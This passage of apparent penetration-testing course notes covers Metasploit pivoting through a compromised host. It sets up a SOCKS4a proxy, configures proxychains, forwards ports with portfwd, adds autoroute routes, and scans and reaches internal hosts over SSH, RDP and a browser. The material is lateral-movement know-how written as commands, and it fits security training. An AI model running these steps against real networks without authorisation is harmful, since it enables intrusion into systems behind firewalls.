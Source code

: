 (41/59) Sometimes we may want to pivot external tools through the Meterpreter session and its routes.
`use auxiliary/server/socks4a`, `show options`, `set SRVHOST 0.0.0.0`, `set SRVPORT 1080`, `run`: to set up a socks4a proxy within Metasploit.
`netstat -tulpn | grep 1080`: to check the proxy status (in this case we are listening for incoming connections on port 1080).
*Proxychains* is a tool to force TCP connections, made by any application (for instance Nmap or Nessus), to follow through proxy like SOCKS, TOR, and so on.
To use socks4 as proxy: `nano /etc/proxychains4.conf`:
```
[ProxyList]
# add proxy here ...
# meanwhile
# defaults set to "tor"
socks4		127.0.0.1	1080
```
`proxychains4 nmap -sT -Pn -n <TargetInternalIP> --top-ports <PortsAmount>`: to use an external tool through the Meterpreter session and its routes.
We can also use proxychains in order to establish connections to services running on machines within the target network: `proxychains4 ssh <Username>@<TargetInternalIP>`.
Moreover, we can run exploits through proxychains.

(52/59) Alternatively, we can use *portfwd* Meterpreter script to achieve the same purpose.
`portfwd add -l <LocalPort> -p <TargetInternalPort> -r <TargetInternalIP>`: to open a listener on our local IP address on `<LocalPort>` port and forward the connection to the target (internal) IP address on `<TargetInternalPort>` port.
`netstat -tulpn | grep 3333`: to check proxy status (we are listening for incoming connections on port 3333).
Now, we can try to establish an RDP session with the target (internal) machine: `rdesktop 127.0.0.1:3333`.

Note that thanks to this configuration, we are able to route packets to networks behind NAT or firewalls.

### Mapping the Network - Video

`shell`, `ipconfig /displaydns`: to show the local DNS cache, so the DNS records stored. Here we can see that exists another subnet `10.10.11.0/24`.
`netstat -an`: to see all the active TCP connection ports on which the computer is listening.

`use post/multi/gather/ping_sweep`, `show options`, `set RHOSTS 10.10.10.0/24`, `set SESSION 1`, `run`: to find the alive hosts.
`sessions -i 1`, `run arp_scanner -r 10.10.10.0/24`: to detect the other hosts on the internal network.

Now, the victim will work as a proxy between us and the remote network.
`background`, `use /post/windows/manage/autoroute`, `show options`, `set SUBNET 10.10.10.0`, `set SESSION 1`, `run`, `autoroute -p`: to add a route.
`use auxiliary/scanner/portscan/tcp`, `show options`, `set RHOSTS 10.10.7.0/32`, `set PORTS 20-200`, `set THREADS 20`, `run`: to run a TCP port scan on an internal IP addresses range, through the ingress point. Note that `10.10.7.0/32` stands for the only `10.10.7.0` IP address.
`set RHOSTS 10.10.10.200`, `run`: we can see that SSH and HTTP ports are open.

All the traffic that goes through the proxy will use the route added before in Metasploit.
`use auxiliary/server/socks4a`, `show options`, `run`.
`nano /etc/proxychain.conf`:
```
[ProxyList]
# add proxy here ...
# meanwhile
# defaults set to "tor"
socks4		127.0.0.1	1080
```
`proxychains4 ssh root@10.10.10.200`: to establish a connection to the SSH server in the remote network.
`proxychains4 firefox`: to run a web browser with proxychains and try to navigate to `10.10.10.200`. It works.